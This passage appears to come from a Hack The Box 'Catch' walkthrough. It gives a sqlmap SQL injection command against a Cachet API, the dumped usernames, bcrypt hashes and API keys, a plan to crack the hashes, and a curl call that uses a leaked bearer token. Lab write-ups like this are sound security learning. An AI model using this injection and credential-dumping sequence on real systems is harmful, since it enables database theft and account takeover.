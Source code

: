 relevant output:
```console
+-------------------+------------------+
| Column            | Type             |
+-------------------+------------------+
| level             | tinyint(4)       |
| active            | tinyint(1)       |
| api_key           | varchar(191)     |
| created_at        | timestamp        |
| email             | varchar(191)     |
| google_2fa_secret | varchar(191)     |
| id                | int(10) unsigned |
| password          | varchar(191)     |
| remember_token    | varchar(100)     |
| updated_at        | timestamp        |
| username          | varchar(191)     |
| welcomed          | tinyint(1)       |
+-------------------+------------------+
```
The interesting columns are username, password and api_key, so let's dump those values as well.

`sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1%5B0%5D=&1%5B1%5D=a&1%5B2%5D=&1%5B3%5D=or%201=1)*+--+-" --dump -D cachet -T users -C "username,password,api_key" --level=5 --risk=3`
```console
+----------+--------------------------------------------------------------+----------------------+
| username | password                                                     | api_key              |
+----------+--------------------------------------------------------------+----------------------+
| john     | $2y$10$2jcDURPAEbv2EEKto0ANb.jcjgiAwWzkwzZKNT9fUpOziGjJy5r8e | 7GVCqTY5abrox48Nct8j |
| admin    | $2y$10$quY5ttamPWVo54lbyLSWEu00A/tkMlqoFaEKwJSWPVGHpVK2Wj7Om | rMSN8kJN9TPADl2cWv8N |
+----------+--------------------------------------------------------------+----------------------+
```
Let's try to crack these hashes with hashcat. In the meantime we can check out the other services that we got tokens for via the apk.

Let's check out available rooms on Let's chat:

`curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" http://catch.htb:5000/rooms`

Output can be seen below:
```json
[
	{"id":"61b86b28d984e2451036eb17",
	"slug":"status",
	"name":"Status",
	"description":"Cachet Updates and Maintenance",
	"lastActive":"2021-12-14T10:34:20.749Z",
	"created":"2021-12-14T10:00:08.384Z",
	"owner":"61b86aead984e2451036eb16",
	"private":false,
	"hasPassword":false,
	"participants":[]},

	{"id":"61b8708efe190b466d476bfb",
	"slug":"android_dev",
	"name":"Android Development",
	"description":"Android App Updates, Issues & More",
	"lastActive":"2021-12-14T10:24:21.145Z",
	"created":"2021-12-14T10:23:10.474Z",
	"owner":"61b86aead984e2451036eb16",
	"private":false,
	"hasPassword":false,
	"participants":[]},

	{"id":"61b86b3fd984e2451036eb18",
	"slug":"employees",
```